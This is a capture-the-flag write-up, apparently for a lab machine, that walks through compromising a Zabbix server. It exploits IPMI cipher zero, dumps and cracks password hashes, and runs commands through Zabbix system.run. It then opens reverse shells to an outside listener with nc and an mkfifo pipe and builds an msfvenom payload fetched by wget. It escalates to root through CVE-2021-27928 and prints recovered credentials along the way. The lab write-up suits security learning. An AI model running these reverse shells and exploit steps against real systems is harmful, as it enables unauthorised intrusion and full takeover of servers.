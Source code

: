 # enumeration
## nmap scan
the initial nmap scan showed open http port
a second one - specifying udp - showed a different open port:
PORT    STATE SERVICE
623/udp open  asf-rmcp


## fuzzing
looking for directores with dirb,  I found two interesting ones:
/assets
/forms
--> there was a some information about a PHP Email Form, but this lead to a dead end as it was not available

## visiting the website
going to the website it showed it was _Powered by enterprise monitoring solutions based on Zabbix & Bare Metal BMC automation_

# exploit
using the IPMI exploit from this article (https://book.hacktricks.xyz/pentesting/623-udp-ipmi)

## metasploit enumeration
this showed ipmi was being used and the specific version:
```use  auxiliary/scanner/ipmi/ipmi_version```

this showed that the cipher zero is activated and can be exploited:
```use auxiliary/scanner/ipmi/ipmi_cipher_zero```
result = `[+] 10.10.11.124:623 - IPMI - VULNERABLE: Accepted a session open request for cipher zero`

the cipher zero could either be exploited with ipmitool (```apt-get install ipmitool #Install
#Using -C 0 any password is accepted
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list #Use Cipher 0 to dump a list of users
ID  Name      Callin  Link Auth   IPMI Msg   Channel Priv Limit
2   root             true    true       true       ADMINISTRATOR
3   Oper1            true    true       true       ADMINISTRATOR
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 #Change the password of root```), which would show the users and information about them or ```msf > use auxiliary/scanner/ipmi/ipmi_dumphashes``` could be used to dump the hashes immediately.

The latter revealed the following:


## cracking hash found
run hashcat from within the following directory ```/usr/local/Cellar/hashcat/6.2.5/share/hashcat/OpenCL```
command:
```hashcat -a 0 -m 7300 /Users/hedmaar/Documents/hacking/shibbolethHash.txt /Users/hedmaar/Documents/hacking/rockyou.txt```
result:
```70123cc9020a0000623bdf45118ff4c7ad5f363fc9979163dcb6af541526ae8214404ac85b811f91a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:e77e42065e24f1e6eaafbb6956aa5a2ca7a23561:ilovepumkinpie1```

## finding entry point
logging in with the credentials *Administrator:ilovepumkinpie1*
I navigated to `configuration > hosts`. 
The interesting part are the `items > create item`.
So proceeded to create a new one 


from (https://www.zabbix.com/documentation/current/en/manual/config/items/itemtypes/zabbix_agent) it is the system.run which is interesting, as it allows to run commands such as `=> system.run[ls -l /] → detailed file list of root directory`  on the host.

## reverse shell
(https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
Now the aim was to get a reverse shell. So by executing a command on the system using `system.run` with the reverse shell command `nc -e /bin/sh 10.10.14.111 4444` and then setting up a listener with `nc -nlvp 4444 `. This did not work, so I tried the following instead in the *key* field:`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.111 4444 >/tmp/f` and used `nowait` as the mode.
Then `Test > get value` and we got a shell:
_connect to [10.10.14.111] from (UNKNOWN) [10.10.11.124] 52520
/bin/sh: 0: can't access tty; job control turned off
$_

# getting user flag
looks like I do not have read access to /home/ipmi-svc/user.txt...
Escalaing to the ipmi-svc user I first tried to use the already found Administrator password, which worked, but the shell ended up being very unstable, so I upgraded to a fully interactive tty using `python3 -c 'import pty; pty.spawn("/bin/bash")'`.



### user flag
7a644ae54d69df1b76f10390788f3c06

# privilege escalation
resing the `/etc/passwd` file I can see MySQL is running.
`mysql  Ver 15.1 Distrib 10.3.25-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2`
Searching Google for `10.3.25-MariaDB exploit` revealed CVE-2021-27928, which is the same as the first result when searching for MariaDB in searchsploit.

So I proceeded to try to follow (https://github.com/Al1ex/CVE-2021-27928).

## finding DB credentials
The following command is good for finding interesting files without running LINPeas
`find / -type f -group ipmi-svc ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null`. The results were:
_-rw-rw-r-- 1 ipmi-svc ipmi-svc 476 Apr 13 12:08 /tmp/elf
-rw-r--r-- 1 ipmi-svc ipmi-svc 0 Apr 24  2021 /home/ipmi-svc/.cache/motd.legal-displayed
-rw-rw-r-- 1 ipmi-svc ipmi-svc 22 Apr 24  2021 /home/ipmi-svc/.vimrc
-rw-r--r-- 1 ipmi-svc ipmi-svc 220 Apr 24  2021 /home/ipmi-svc/.bash_logout
-rw-r--r-- 1 ipmi-svc ipmi-svc 807 Apr 24  2021 /home/ipmi-svc/.profile
-rw-r--r-- 1 ipmi-svc ipmi-svc 3771 Apr 24  2021 /home/ipmi-svc/.bashrc
-rw-r----- 1 ipmi-svc ipmi-svc 33 Apr 13 06:05 /home/ipmi-svc/user.txt
-rw-r----- 1 root ipmi-svc 22306 Oct 18 09:24 /etc/zabbix/zabbix_server.conf.dpkg-dist
-rw-r----- 1 root ipmi-svc 21863 Apr 24  2021 /etc/zabbix/zabbix_server.conf_

It is clear that the zabbix_server.conf is of interest so looking into it I find the credentials *zabbix:bloooarskybluh* for the zabbix DB. The host is localhost/127.0.0.1

### running linPeas:
First I cloned and built the linPeas directcory from github, set up a server in diretory with _linpeas.sh_ and then used wget to upload to the listener shell.
from here I had to `chmod +x linpeas.sh` it, and then executed it.
The interesting results were under _"Readable files belonging to root and readable to me but not world readable_ aka the _zabbix_server.conf_ file.

## create reverse shell payload + start listener
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.111 LPORT=6666 -f elf-so -o elf`
and
`nc -nvlp 6666`

## copy payload to target
set up `python3 -m http.server 8080` in /shibboleth directory. use `wget http://10.10.14.111/elf` from ipmi-svc/tmp to get file.

## execute
log into the database using `mysql -h 127.0.0.1 -u zabbix -p` then enter the password `bloooarskybluh`. Execute `SET GLOBAL wsrep_provider="/tmp/elf";` and this should spawn a shell. Upgrade to a better shell.

### system flag:
a68c35a5e03d9714a7e3664b9f9362b3

# things learnt
- "hidden" services on udp
- ipmi
- ffuf DNS searches
